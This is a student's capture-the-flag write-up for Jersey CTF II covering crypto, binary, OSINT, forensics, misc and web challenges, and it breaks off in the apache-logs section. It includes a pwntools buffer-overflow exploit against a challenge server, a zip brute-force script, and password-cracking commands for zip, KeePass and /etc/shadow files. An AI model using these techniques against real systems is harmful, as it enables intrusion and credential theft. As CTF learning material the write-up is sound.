


# Jersey CTF II

### Introduction

JCTF was my first time competing in a CTF outside of challenges for course material during my MS Cybersecurity program at NYU. That being said, I was not entirely certain on what to expect or how I would fare against more seasoned vets at the game. In total, there were over 1100 participants with every continent represented.

The challenge categories included `crypto`, `bin`, `osint`, `forensics`, `misc`, and `web`.

I've played with a fair number of cyber tools thus far through my studies and career, would consider myself a fairly competent coder, and recently got an introduction to rudimentary binary exploitation, but haven't tried formal applications in the osint or forensics categories prior to this competition. My main aim for this competition was to test my skills and learn new tools and techniques in the process, and due to this, I attempted nearly every challenge (...though, a few were a tad outside my current skillset, such as audio challenges). While the challenges were open for ~24 hours, I was only able to spend about ~8 on playing the CTF.

My team finished in the top 10% of participants, so I was quite ecstatic with that for a first timer and I can't wait to see where I could place in next year's! Shoutout to my group members: @lilglow and @rudra. Below are my writeups for some of the challenges:

## Quicklinks

1. [crypto](#crypto)
    1. [salad](#salad)
    2. [new-algorithm](#new-algorithm)
    3. [xoracle](#xoracle)
    4. [secret-message](#secret-message)
    5. [would-you-wordle](#would-you-wordle)
    6. [file-zip-cracker](#file-zip-cracker)
2. [bin](#bin)
    1. [patches](#patches)
    2. [misdirection](#misdirection)
    3. [going-over](#going-over)
3. [osint](#osint)
    1. [dns-joke](#dns-joke)
    2. [photo-op-spot](#photo-op-spot)
    3. [mystery](#mystery)
    4. [rarity](#rarity)
    5. [contributor](#contributor)
4. [forensics](#forensics)
    1. [stolen-data](#stolen-data)
    2. [speedy-at-midi](#speedy-at-midi)
    3. [data-backup](#data-backup)
    4. [scavenger-hunt](#scavenger-hunt)
    5. [corrupted-file](#corrupted-file)
5. [misc](#misc)
    1. [firewall-rules](#firewall-rules)
    2. [snort-log](#snort-log)
    3. [we-will](#we-will)
    4. [filtered-feeders](#filtered-feeders)
    5. [bank-clients](#bank-clients)
    6. [dnsmasq-ip-extract](#dnsmasq-ip-extract)
    7. [check-the-shadows](#check-the-shadows)
6. [web](#web)
    1. [apache-logs](#apache-logs)
    2. [seigwards-secrets](#seigwards-secrets)
    3. [heres-my-password](#heres-my-password)
    4. [buster](#buster)
    5. [flag-vault](#flag-vault)
    6. [cookie-factory](#cookie-factory)

--------------------------------------------------------------------------------
## Cryptography fun! <a name="crypto"></a>
I'm not sure if it's the heavy emphasis on coding, the nostalgia of making up secret codes as a child, or a newfound passion prof Jack from CSGY6903 instilled in me, but I find these challenges some of the most fun to attack.

That being said, there were two incredibly interesting challenges I spun my wheels on and learned a ton attacking, but was unable to solve completely during the competition, and they were `inDEStructible` and `audio-transmission`. For `inDEStructible`, I tried brute forcing the key in Python by searching over the available keyspace but didn't have any luck, so I'll have to check my approach. For `audio-transmission`, I got to the point of noticing multiple frequency bands that may represent something in bits, but didn't have time to delve further. I will definitely be looking up writeups once available to learn how to approach similar challenges in the future!

For now here are the (much easier...) ones I did solve...

--------------------------------------------------------------------------------

### salad - 50 pts <a name="salad"></a>

**Challenge Description:** atkw{plddp_jrcru_uivjjzex}

**Solution:** This one was a gimme, so using our friend Caesar's cipher, we can quickly deduce our first flag: `jctf{yummy_salad_dressing}`

--------------------------------------------------------------------------------

### new-algorithm - 75 pts <a name="new-algorithm"></a>

**Challenge Description:** On the first day of the job, a new cryptography intern is insisting to upper management that he developed a new encryption algorithm for the company to use for sensitive emails and should get a raise. This seems too good to be true... are you able to prove the intern wrong by decrypting it?

Here's an example of an encrypted email message using the intern's algorithm: `amN0Znt0UllfQUVTX0lOc1QzQGR9`

**Solution:** The provided string looked like base64, so tossing it into CyberChef quick to check, we can see our flag: `jctf{tRY_AES_INsT3@d}`

--------------------------------------------------------------------------------

### xoracle - 150 pts <a name="xoracle"></a>

**Challenge Description:** Check out my cool new encryption service! It's very secure! Connect to `0.cloud.chals.io` on port `19305`.

**Hint:** Read carefully: a small mistake or typo can be all it takes to make an encryption system insecure.

**Solution:**


As we can see from the screenshot, this program XORs our input against a key of some sort, but the flaw is that it seemingly reuses the key for all input provided. Since XOR is its own inverse, we can reverse the provided flag string, then decode the hex string via Python or CyberChef and we are given our flag: `jctf{1_th0U9hT_1t_w45_53Cure_a07b8a01}`

--------------------------------------------------------------------------------

### secret-message - 200 pts <a name="secret-message"></a>

**Challenge Description:** There are two bank heist organizations communicating by sending images of expensive assets to each other, could there be a secret message somewhere? Along with the images, they are sending the same secret_key.txt file with encoded text.

**Hint:** The employees of both organizations passed Decoding 101 in high school, but failed Encryption 101 in college.

**Solution:** The `secret_key.txt` file we are provided contains a string that ends in `%3D%3D`, which looks like url encoding of `=`. Tossing this string in CyberChef, we can see this is the case, which we then decode from base64 to get a string that looks like it's encoded with a Caesar cipher. Decoding once again, we get a message with the string `manchester_united_2022`.

The provided photo must have hidden data in it somehow, so I tried the typical `exiftool` and `binwalk` approach to no avail. Researching other steganography tools, which proved useful in many of this CTF's challenges, I ran `steghide extract -sf Photo.jpg` on the file and discovered a secret message file that was password protected. Using our password from above, we receive our flag: `jctf{QbxVLJrIbP}`

--------------------------------------------------------------------------------

### would-you-wordle - 250 pts <a name="would-you-wordle"></a>

**Challenge Description:** Someone left this secret text string and unfinished Wordle. Can you put them together to get the flag? pUpPHg3KfB15MG2KGtQQMDEECPOF8oa3VA==

**Hint:** Ron's Code

**Solution:**


Ngl, this one scared me at first, as I have been avoiding Wordle like the plague ever since it took over my Twitter and Facebook feeds some months ago. That prior avoidance was now in turn plaguing me further that I did not know how to play Wordle in the slightest. I texted a friend whose family obsessively plays and learned some ground rules for the game: `green letters are good and right, yellow letters are good but wrong, you have 6 guesses to get magic word and want to do it as quickly as possible, and dark grey letters are no good`.

I don't know any English words with H in the middle, so I assumed the start was `Th`, which gave me `THORN`, `THROB`, and `THROW` with my letters left. I decided to leave it at this, as this is a compsci challenge afterall, and what good are computers if we can't at least brute force a couple various options. If the word wasn't in this bunch (spoiler: it was!), then I'd drag out a dictionary for more words to play with.

Going off our hint, I assume it is a reference to RC4, and I toss the provided string to CyberChef to decode the base64 and get seemingly garbage bits. Applying the RC4 recipe next, I try keys of my Wordle guesses to no avail, before realizing it could potentially be lowercase letters as well. My hunch was correct, as `thorn` turns out to be the key to the RC4 cipher, and we gain our flag: `jctf{CryptoIsTheKeyToFun}`

--------------------------------------------------------------------------------

### file-zip-cracker - 450 pts <a name="file-zip-cracker"></a>

**Challenge Description:** We have a secret file that is password protected. However, we have obtained a wordlist of actors that is part of the password. The password is the combination of one of the names on the list with a year.
Format: "Actor_NameYYYY"
Example: "Henry_Cavill1964"

**Solution:**

For this challenge, the quickest and most elegant solution I could see was to brute force given our wordlist and parameters given.

I first generated a file that contained a list of years matching the required length of 4 digits, ranging from 1000-9999.

I then wrote the following script that iterates through all actor name + year options, trying to unzip the file at each iteration. If it is successful, I print out the succeeding password. If not, I continue running. The code is the following:

```
import os
import pyzipper

os.chdir("/home/kali/Desktop/NYU/OffSec/jersey_ctf/file-zip-cracker")

def extractFile(zip_file, password):
    try:
        with pyzipper.AESZipFile(zip_file, 'r', compression=pyzipper.ZIP_DEFLATED, encryption=pyzipper.WZ_AES) as extracted_zip:
            extracted_zip.extractall(pwd=str.encode(password))
        return True
    except Exception as e:
        return False

actors = list(open('actorList.txt', 'r').read().split('\n'))
years = list(open('pins.txt', 'r').read().split('\n'))

for year in years:
    for actor in actors:
        password = actor + ''.join(year)
        print("Trying: %s" % password)
        if extractFile('secret_folder.zip', password):
            print('*' * 20)
            print('Password found: %s' % password)
            print('Files extracted...')
            exit(0)

print('Password not found.')
```

The first time I wrote/ran the script, my check for zip extraction had an incorrect try/except logic, so it ran for hours to no avail and to my frustration at my own stupidity for not validating on a single test case prior to brute forcing. After realizing my mistake, I corrected it to what's above and validated locally before running again. Luckily, the year happened to be a low value, and the script gave us `Johnny_Depp2017` as the password.

After opening the .zip folder, we see a compressed zip file that's password protected, along with a text file with the following contents: `Gur pbqr gb haybpx gur mvc svyr vf: v'ir_tbg_n_wne_bs_qveg_naq_thrff_jung'f_vafvqr_vg`.

As that is certainly not a language I recognize, and I don't think they'd expect us to know Sindarin for this challenge, I go back to my friend CyberChef to try some shift ciphers, and it turns out to be ROT13, which presents us with: `The code to unlock the zip file is: i've_got_a_jar_of_dirt_and_guess_what's_inside_it`.

Opening the zip with the newfound password, we see a flag.mp3. Opening it up, it turns out to be a gif and we are very briefly presented with the following frame for a fraction of a second if you quickly pause:


Aye aye, we have our flag!


--------------------------------------------------------------------------------

## Binary exploitation <a name="bin"></a>
This section included some new types of files that I was unable to solve, such as .jar files and windows .dlls. I had only been exposed to x86 previously, so I will definitely be doing some reading in these new categories to become familiar for future challenges.

--------------------------------------------------------------------------------

### patches - 200 pts <a name="patches"></a>

**Challenge Description**: Given an objdump of an executable, figure out what hexadecimal instructions are needed to nop to get the jctf flag to stdout

**Hint:** Simply enter the opcodes

**Solution:** We are provided an objdump of a file and can see our flag in the `.rodata` along with several function chunks for `<main>`, `<a>`, and `<b>`. Following through the assembly, we find a JLE that if skipped, will fall into our desired call. The opcodes for this are `7e0a`. The relevant excerpt is below:

```
11a9:	83 7d ec 1d          	cmp    DWORD PTR [rbp-0x14],0x1d    | comparison to jump on
11ad:	7e 0a                	jle    11b9 <main+0x42>             | we don't want this jump to occur
11af:	b8 00 00 00 00       	mov    eax,0x0                      | zero out RAX
11b4:	e8 90 ff ff ff       	call   1149 <a>                     | thing we want to call
```
Our flag is `jctf{7e0a}`

--------------------------------------------------------------------------------

### misdirection - 250 pts <a name="misdirection"></a>

**Challenge Description:** Where'd the flag go?

**Hint:** There are many ways to solve this challenge, some of which are much easier than others.

**Solution:** Opening this binary in Ghidra, we are given a fairly simple main function:



We have a loop that runs through 37 iterations, XORing 2 buffer arrays together, followed by the program printing out this result to file descriptor 5. Since there is no challenge server provided, I am going to assume the flag is this output.

One possible solution is that we XOR the two arrays by hand, but I'm lazy. So instead, if we redirect the output to something like `stdout` instead of `5`, we receive our flag:


--------------------------------------------------------------------------------

### going-over - 350 pts <a name="going-over"></a>

**Challenge Description:** My friends said they were going on a trip but I think they ran into some trouble... They sent me these two files before we lost contact (*src.c* and *going-over*).
`nc 0.cloud.chals.io 10197`

**Solution:** My first steps when approaching a new binary are to run `checksec`, `file`, and `strings | grep <flag format>` for some easy wins. While this challenge isn't *that* easy, popping it open in Ghidra makes it pretty apparent what we're working with and it's nearly as easy:


An unchecked `gets` call? BOF all day every day. They also provided a libc source file, so I originally assumed we may be doing GOT overwrite or ROP, but conveniently for us, they were so kind as to leave an unused function laying around that already takes care of our shell call for us:


With that in mind, let's break out Python and pwntools to quickly grab this flag:

```
from pwn import *

context.binary = elf = ELF('./going-over')

p = remote('0.cloud.chals.io', 10197)
p.recvuntil(b"I can't find it!!!")
# p = process("./going-over")

payload = flat(b'A'*20, elf.sym['grab_ledge'])
print("Payload: {}".format(payload))
p.sendline(payload)

print(p.clean())
p.interactive()
p.close()
```
Our flag is: `jctf{ph3w_ju57_1n_71m3}`

--------------------------------------------------------------------------------

## Open Source Intelligence <a name="osint"></a>
OSINT is new to me, and aside from playing around on my own time or getting an overview of a few tools in my Penetration Testing class at NYU, I am largely unaware of the tools, techniques, and approaches for these types of challenges. As such, this was an excellent learning opportunity to poke around and add to my toolkit.

--------------------------------------------------------------------------------

### dns-joke - 100 pts <a name="dns-joke"></a>

**Challenge Description:** A system administrator hasn't smiled in days. Legend has it, there is a DNS joke hidden somewhere in www.jerseyctf.com. Can you help us find it to make our system administrator laugh?

**Solution:** For this challenge, I first did a `nslookup` on the domain and didn't see anything out of the ordinary, so decided to check all of the various record types. It is easiest to do so using an online service, in my opinion, so I used the [following link](https://dnschecker.org/all-dns-records-of-domain.php?query=www.jerseyctf.com&rtype=ALL&dns=google).

We can see that the TXT record has our flag: `jctf{DNS_J0k3s_t@k3_24_hrs}`

--------------------------------------------------------------------------------

### photo-op-spot - 250 pts <a name="photo-op-spot"></a>

**Challenge Description:** In three words tell me where I stood when I grabbed this picture.

**Hint:** GPS coordinates aren't the only method of specifying a location.
Solution format: jctf{yourthreewords} - no special characters

**Solution:** We were given a picture for this challenge, which I first ran through `exiftool` to see if any metadata would leak our desired GPS location. Unfortunately, it did not, so I ran it through a reverse image search in Google and discovered it to be the `Transforest` public art piece in Seattle, WA. I poked around in Google Maps street view to identify the same location as the picture and was able to obtain GPS coordinates, but our flag doesn't want them in that format...

I struggled quite a bit on what three words it wanted, and tried combinations including Google Maps labels, nearby landmarks, the city/state/country, etc. I then Googled "three words location" and was given a site called "what3words," which apparently seems to be a popular and well-known service that I was previously quite unaware of. This site takes GPS locations and translates any location into, well, 3 words. How convenient!

Using this, I get the words `Unions`, `Lake`, `Spine`. Based on nearby items, I can understand the first 2 words, but not sure where `Spine` comes from. Oh well, that's an inquiry for another time.

Trying the flag `jctf{unionslakespine}` worked, so good enough for me!

--------------------------------------------------------------------------------

### mystery - 250 pts <a name="mystery"></a>

**Challenge Description:** Someone thought it would be fun to leave this mysterious clue. How do these two items lead to the flag?


**Solution:** Given the picture, my first instinct was to run `exiftool`, `xxd`, and `binwalk` on it to check for steganography-type puzzles or metadata clues. Nothing was coming up, so I decided to use our pal Google to search for cyber tools/references related to either a delicious breakfast of Eggs Benedict or perhaps the character Sherlock. Somewhat understandably, the latter is what got a hit and I was introduced to a OSINT search tool called `Sherlock` that takes a username, then returns all references of it across sites on the internet.

Running our tool with the given (what appears to be) username grants us the following:


Most of these sites appeared to be actually nonexistent once digging deeper, but Twitter and Instagram proved to be valid accounts. Digging into recent posts on both, a comment was discovered on Twitter that contained our flag: `jctf{Myst3ry-S0lv3d!}`

--------------------------------------------------------------------------------

### rarity - 350 pts <a name="rarity"></a>

**Challenge Description:** With three belonging to a respective company, there is only a two-digit number amount of this entity left in the world. There is one near this picture... how close can you get to it? The flag format is the coordinates in decimal degrees notation, for example: `jctf{-65.91374,-10.81140}`


**Hint:** Aren't sub sandwiches great?

**Solution:** This one was quite puzzling to start. The typical `exiftool` and Google reverse image search was attempted with no results. The hints made me think of Subway, Jersey Mikes, Jimmy Johns, and the likes, but I couldn't imagine one being near a setting as seen in this pic.

A group member cleverly noted the area code visible in the bottom righthand corner, which with some research directs us to the Akron, Ohio area. Poking around a bit on Google maps still wasn't making things click, so we moved on to other challenges for a bit.

Another hint was given late in the day of `Hindenberg Disaster`, which then makes the rarity/entity statement click: we are looking for `blimps`. *Sidenote: I was curious wtf the original hint was about, and a quick Google of 'blimp sub sandwich' revealed that there's a sub franchise called 'Blimpies' so TIL...*

Back to Google Maps, I am drawn to the Wingfoot Lake area where Goodyear has a large blimp hanger. Poking around in street view, I walked around the lake's roads, and while taking a walk through the park, I was able to get close to our given picture. Using those coordinates, we have our flag: `jctf{41.019753,-81.3621151}`

--------------------------------------------------------------------------------

### contributor - 400 pts <a name="contributor"></a>

**Challenge Description:** Aren’t tech talks great? The JerseyCTF organizing staff is so grateful that our speakers can share their wonderful experiences with our participants. In fact, one of the speakers actually helped us develop https://www.jerseyctf.com/ and http://www.jerseyctf.online/. How cool is that!

**Hint:** 1.0 × 10^100

**Solution:** Given our hint, my immediate reaction is that the speaker in mind would be from Google, given they were one of the sponsors. However, when poking around looking at the speakers, I noticed a silly company/title for an individual named `Donnie Rodgers`.

A quick Google search brought up a LinkedIn profile that definitely appeared to be fake and useful for our purposes.


The second URL in the challenge description was one I hadn't seen yet, so I decided to poke around. It provided a login page with a `Forgot Password` functionality and it didn't appear to prevent brute forcing tries. Going through common First + Last combinations on Donnie's name as a username, `DRodgers` leads us to 3 security questions:


Using our newfound information on Donnie from LinkedIn, we can easily answer the questions. I funnily entered "chess" as the favorite sport before trying a second time with "Arm wrestling" which was correct.

Entering the correct answers provides us a pop-up with our flag: `jctf{b3_CAR3fu1_wh@t_yOU_put_on_the_WEB}`

--------------------------------------------------------------------------------

## Forensics <a name="forensics"></a>
Forensics offered some new challenges and tools to look into, as well as offered some comfort through familiarity with linux.   

--------------------------------------------------------------------------------

### stolen-data - 150 pts <a name="stolen-data"></a>

**Challenge Description:** Someone accessed the server and stole the flag. Use the network packet capture to find it.

**Hint:** Look for unusual ports

**Solution:** We were given a PCAP file, so I decided to explore it in Wireshark. Poking around, we see some traffic on `4444`, which is unusual, and following this TCP stream we see a pdf being retrieved:


Exporting the data as raw, we can obtain the PDF itself being sent, and voila it contains our desired flag:


--------------------------------------------------------------------------------

### speedy-at-midi - 150 pts <a name="speedy-at-midi"></a>

**Challenge Description:** Your partner-in-crime gets a hold of a MIDI file, riff.mid, which intelligence officials claim to contain confidential information. He has tried opening it in VLC Media Player, but it sounds just like the piano riff in `riff.mp3`. Can you find the right tool to extract the hidden data?

**Solution:** We are given a `.mid` and a `.mp3` to work with. Listening to them off the bat, it is just junk noise and nothing of help. Since one file is a `midi` and that happens to coincide with our challenge name, I decided to open it up in a midi editor I used back when writing Noteblock songs for Minecraft... ah, memories.

Scrolling around to view the various channels, I noticed a track that looked rather interesting:


*ENHANCE*


_nice_

--------------------------------------------------------------------------------

### data-backup - 250 pts <a name="data-backup"></a>

**Challenge Description:** The backup of our data was somehow corrupted. Recover the data and be rewarded with a flag.

**Hint:** Try a tool a surgeon might use.

**Solution:** Well, I did say that my goal of this competition was to learn new tools, so I Googled "scalpel cybersecurity" and with a stroke of luck, there happens to be a tool indeed named `Scalpel` used for file carving.

[Here](https://github.com/sleuthkit/scalpel) is the tool's repo, and [here](https://github.com/HackThisSite/CTF-Writeups/blob/master/2017/EasyCTF/Zooooooom/scalpelConfig.txt) is the config that I used, but the TLDR of the tool is that it leverages known "magic" bytes of various file formats to carve them out of a corrupted dump.

I ran the following on our given `data-backup` file: `scalpel -c scalpelconfig.txt data-backup` and was presented with the following in under a second:


This recovered 5 zip files, numbered 0-4. Upon unzipping file "0", I was greeted by a `flag.pdf` and a `flag.png`. The .pdf contained our flag: `jctf{fun_w17h_m461c_by735}`

--------------------------------------------------------------------------------

### scavenger-hunt - 350 pts <a name="scavenger-hunt"></a>

**Challenge Description:** My friend told me he hid a flag for me on this server! Server: `0.cloud.chals.io` SSH port: `24052`
Username: `jersey`
Password: `securepassword`

**Solution:**

`scavenger-hunt` ended up being pretty funny, as all of us attempting the challenge were ssh'ed into the server as the same user at the same time, so people took the opportunity to troll and spam `wall` commands to share ASCII art with everyone. It was halfway tempting to spin up a cron job to send messages of my own, but after all I *did* agree to Rule 3 on discord `3. Don’t spam. This includes posting off-topic or repetitive messages.` so I decided against it... That aside, let's get to the challenge!

Upon SSHing into our server, I ran `ls -la` to get my bearings, and saw a single folder named `folder`, which I then cd into. Running `ls -la` again, we see a `.secret_folder` and cd there. We are greeted by a `flag.txt`, but upon catting it, we see that it's a clue to the next location. Viewing `/etc/passwd`, we see a user by the name of `hey_that_package_is_sus`, pointing us in the direction of looking at installed packages.  


Searching our packages and looking for a flag, we see a package `notaflag` that may be of interest. Getting information on this package redirects us to its manual, and at last, we have our flag:


--------------------------------------------------------------------------------

### corrupted-file - 400 pts <a name="corrupted-file"></a>

**Challenge Description:** Can you find a way to fix our corrupted .jpg file?

**Solution:** We are given a photo that isn't doing so well at photo-ing in its current state.

Looking at the file in a hex editor, one of our group members quickly identified that the magic identification bytes at the start did not match what a JPEG should have:

Our file bytes:


Proper bytes, according to the Internet:


This is pretty easy to fix. Running the following command, we can edit the required bytes and voila, our photo is once again photo-ing:

`printf '\xff\xd8\xff\xe0' | cat - flag_mod.jpg > new_flag.jpg`


--------------------------------------------------------------------------------

## Miscellaneous <a name="misc"></a>
This category of challenges had a bit of a hodge-podge, with a few being generic "Scripting" challenges, then others falling into what I think is more of a forensics category tbh based on the other challenges, but either way, here are my solutions:

--------------------------------------------------------------------------------

### firewall-rules - 100 pts <a name="firewall-rules"></a>

**Challenge Description:** Liar, Liar, Rules on Fire! A network administrator configured a device's firewall, but made a few errors along the way. Some of your favorite applications may have been denied... We can't worry about that yet, first step is to make sure external hosts aren't able to exploit vulnerable firewall rules. Add the vulnerable ports and put the answer in the flag format: jctf{INSERT NUMBER}

**Solution:** The challenge's wording proved to be quite confusing to me, as I very lately discovered that by "Add" they mean the arithmetic operation, not just "type them out".

We are provided the following list:


From here, we can narrow down the items of interest by filtering out items that originate from internal IPs as well as filtering out any DENY conditions. Shortly before the CTF closed, another hint was given to 'Focus on remote access', which leaves us with line items 5, 11, and 17, which are `rlogin`, `rdp`, and `telnet`, respectively. I tried both adding together the 'Numbers' of the firewall rule as well as the port numbers themselves and the latter proved successful.

Our flag ends up being: `jctf{3925}`   

--------------------------------------------------------------------------------

### snort-log - 100 pts <a name="snort-log"></a>

**Challenge Description:** Let's just say: we are absolutely screwed. The company network administrator recently deployed Snort on our network and immediately received 575 alerts in the log file. To put it lightly, every attack out there is infecting the network. Did you take the required Information Security training? Anyways, the company is going to file for bankruptcy because of this :(. We might as well do SOMETHING so that we can get hired elsewhere. The network administrator mentions to you that after finishing reviewing the log file, she also noticed the web server CPU load and memory usage were abnormally high. Also, what's up with all of this network traffic? Manual analysis stinks, but let's find out what this attack is and take action...
Put your answer in the flag format: jctf{INSERT STRING}

**Solution:** This challenge description is certainly noisy, and the answer to the challenge turned out to be as well. Thinking about the various types of attacks we could filter our alerts for, DDoS comes to mind and doing a search on our log file actually only returns a single result:


Thus, our flag is: `jctf{aut0m@t1on1sb3tt3r}`

--------------------------------------------------------------------------------

### we-will - 150 pts <a name="we-will"></a>

**Challenge Description:** A flag was left behind but it seems to be protected.

**Solution:**

</br>

As the name suggests, we will be using the `rockyou` wordlist for this challenge.

First, we need a hash from our provided .zip file, which we will extract using `John the Ripper` with the following command: `zip2john flag.zip > zip.hashes`. Then, we run our hash against the wordlist with the following command: `john zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt`.

We get the following output showing the proper password:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*@@!^^$25Jjersey (flag.zip/flag.txt)
1g 0:00:00:01 DONE (2022-04-10 01:15) 0.9523g/s 13626Kp/s 13626Kc/s 13626KC/s *ame*..*22gaspar
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Providing that password to the locked zip allows us to get at the file inside, which contains our flag: `jctf{y0u_r0ck3d_17}`

--------------------------------------------------------------------------------

### filtered-feeders - 150 pts <a name="filtered-feeders"></a>

**Challenge Description:** The fishing net caught plenty of herrings, but the flag is nowhere to be found! Try to find the flag within the pile of fish.

**Hint:** How do you hide an image within an image?

**Solution:** The challenge name led me to think that this would be a case of steganography based on image layers/filters, so I first played with the image in Photoshop, but didn't have any immediate results. I then did some Googling and found a tool called `Stegsolve` that could assist in picking some of the most common/advantageous image manipulations to check and loaded the picture in there.

The unedited image is here:


And while flipping through a handful of the various options, we eventually get here, which shows us our flag:


`jctf{1_l0v3_h3rr1n65}`

--------------------------------------------------------------------------------

### bank-clients - 250 pts <a name="bank-clients"></a>

**Challenge Description:** While in Rome, a few heisters spotted a computer in the dumpster outside of a bank and took it. After brute forcing the computer credentials and getting in with "admin/password", there was a password-protected client database discovered. A Desktop sticky note had the following information: "To fellow bank employee - a way to remember each database PIN is that it is 4-digits ranging between 1000 and 9999". It appears the sticky note was auto-translating from another language as well - let's turn that off. Are you able to assist the heisters from here?

**Hint:** After scrolling down, there was additional text on the Desktop sticky note that says "wyptbt lza zlwalt". These bank employees should be removed from the payroll immediately...

**Solution:** In this challenge, we were provided with a .kbdx file, which is used to store credentials in KeePass.

Conveniently, John the Ripper has a utility to extract the hash from this filetype, and we can do so with `keepass2john clients.kdbx > crackthis.txt`.

Given our hint, we can run a Caesar cipher on the phrase and get "primum est septum." I don't remember my Latin that well, but my Italian is still fluent, so I take it that the first number is seven. This is great, as it reduces our search space by 90%!

I wrote a quick Python script to create our wordlist of pins:

```
with open("pins.txt", "w") as f:
    for i in range(7000, 7999):
        f.write(str(i) + '\n')
```

Using hashcat, I ran our hash against the wordlist of pins with the following command: `hashcat -m 13400 crackthis.txt pins.txt`, which returns after a bit with a pin of `7182`.

Using KeePass to open the file, we are prompted for a password, to which I enter the pin above. Glancing through the database, we see a user that has our flag: `jctf{R1ch_p3rson_#4}`

--------------------------------------------------------------------------------

### dnsmasq-ip-extract - 300 pts <a name="dnsmasq-ip-extract"></a>

**Challenge Description:** Extract all unique IPs from dnsmasq-ip-extract-dnsmasq.log, hash each IP (SHA256), and write the IP + hash to a text file (IP and hash should be separated by a space, and each IP + hash entry should be on a new line).

NOTE: Alphabetical characters in the hash should be lower case, as seen in example below. Otherwise, your flag will be incorrect!

Example of text file output contents:

```
10.59.78.165 a6dd519bf8c7c50df5ae519963b5cf1590a471f88343c603168645ff335b26fe
10.244.220.245 20657ea410e8dd2dbf979a12fea35dd1b94beb6c2cac34f1d49c5824d03de5a1
10.18.47.24 c0e481d8f55dbb7de078cdcf67ebf627dc371e969e7dbb0b93afcce104e9247e
```
The flag is the SHA256 hash of the output file. Example:
```
jctf{138706baa74bac72c8ee1c42eb3a7c6add2f71c0737c5044dcdd9cba7409ead6}
```

**Hint:** Verify that the end of your file has a new blank line.

**Solution:** So this challenge is purely a coding exercise, which we can make quick work of in Python. The provided log file is 15,000 lines long, and contains lines in the following format:

```
...
Feb 28 17:57:08 dnsmasq[28478]: reply dns.google.com is 10.180.52.55
Feb 28 17:57:11 dnsmasq[28478]: query[A] dns.google.com from 10.86.40.224
Feb 28 17:57:11 dnsmasq[28478]: forwarded dns.google.com to 10.86.40.224
...
```

My high level thought process is to iterate the log file and load in each line, regex search for IP addresses at each step, then maintain a output list of IPs that I only add to if I find a new, unique IP during iteration. Then, I will create an output file iterating through the list of output IPs where I write a line for each IP followed by its sha256 hash, as outlined in the challenge description. Lastly, I will sha256 the output file via cmdline and submit that as my flag.

My code is the following:

```
import os
import re
import hashlib

os.chdir("/home/kali/Desktop/NYU/OffSec/jersey_ctf/dnsmasq-ip-extract")
logfile = list(open('dnsmasq-ip-extract-dnsmasq.log', 'r').read().split('\n'))

newip = []
for entry in logfile:
    ips = re.findall(r'[0-9]+(?:\.[0-9]+){3}', entry)
    for ip in ips:
        if ip not in newip:
            newip.append(ip)

with open("output.txt", 'w+') as f:
    for ip in newip:
        f.write(ip + ' ' + hashlib.sha256(ip.encode()).hexdigest() + '\n')
    f.close()
```

To run the hash via cmdline, I did the following: `sha256sum output.txt`, which gave me the following: `90dc97926e09a45aa02ca3a95db387bb00ff83ccff18f4d18a3eb96b4893e8bb  output.txt`.

Thus, our flag is: `jctf{90dc97926e09a45aa02ca3a95db387bb00ff83ccff18f4d18a3eb96b4893e8bb}`

--------------------------------------------------------------------------------

### check-the-shadows - 300 pts <a name="check-the-shadows"></a>

**Challenge Description:** Someone in operations recovered fragments of an important file from 142.93.56.4 when it was undergoing maintenance. Intel has it that one of the users has some valuable information. SSH into the server and retrieve it.

**Solution:** The file provided appears to be an `/etc/shadow` file, listing out users in the following format:

```
user4:$6$WowE0YgXFbo8qnpl$gNUpk1lTUfNYHaQxpn7QaOQa9b4R19f9iqHPoUa6sN1CpVuJDvJbwer1CRIU3HsvoHgAlBIcNG.sE48D3j0.G0:19067:0:99999:7:::
m3mcn4:$6$tID5EePxcGC39i0s$PUU96sINzE4HadxuDAgH23q5EYeT3VkQfGiYL.jW43Cywcj8jclU5zmjtuNXtDw.lCGfRkfPJLcc6aRLOWvJI/:19067:0:99999:7:::
pg3bipbbk:$6$bB0bLuBj5t4L8odw$ST7a4EXc.KDnU1l5c2Lapoitw5/8ktxieSciBBrHnwFfBtxJDmuonLnxUevJCO5jDQe.i8ChXCV8qZvBKgG.f0:19067:0:99999:7:::

```

John the Ripper provides us the ability to load the file and test it against a wordlist, which for our purposes I'll use `rockyou` again for. The command is fairly simple, as we run `john --wordlist=/usr/share/wordlists/rockyou.txt shadow` where `shadow` is the file we were provided.

Almost immediately, John finds the following user/password combinations:

| User        | Password |
|-------------|----------|
| mwcvk1edl   | gabriel  |
| dvdwxfgw23m | miriam   |
| user86      | irina    |
| user21      | remote   |

I aborted the session after this, as all we need is a single user to login. As I am lazy and don't like typing the random letter users, I chose to use `user21` for the task.

After SSHing into the server, I poked around to view the other users' folders and noticed that many contained a `file.txt` similar to me, except mine was blank for this user I chose. I decided to check the files for our flag in the format `jctf` with the following command: `grep -r 'jctf' /home`, which recursively searches the given directory and all of its files for the given pattern.

I am given the following output:


From this, we can see there are a handful of red herrings, but `cenmu_vv`'s stands out as our flag: `jctf{o_noes_dicTionarY_atk}`  

--------------------------------------------------------------------------------

## Web <a name="web"></a>
This category had a handful of web-type challenges.

--------------------------------------------------------------------------------

### apache-logs - 100 pts <a name="apache-logs"></a>

**Challenge Description:** An apache log file that contains recent traffic was pulled from a web server. There is suspicion that an external host was able to access a sensitive file accidentally placed in one of the company website's directories. Someone's getting fired...

Identify the source IP address that was able to access the file by using the flag format: jctf{IP address}

**Solution:** Given the description, you know that the file was successfully accessed, which would likely be a `200` status code indicating as such.

Starting here, we can search the file with the command `cat webtraffic.log | grep '200'`, and it only returns us the following lines:

```
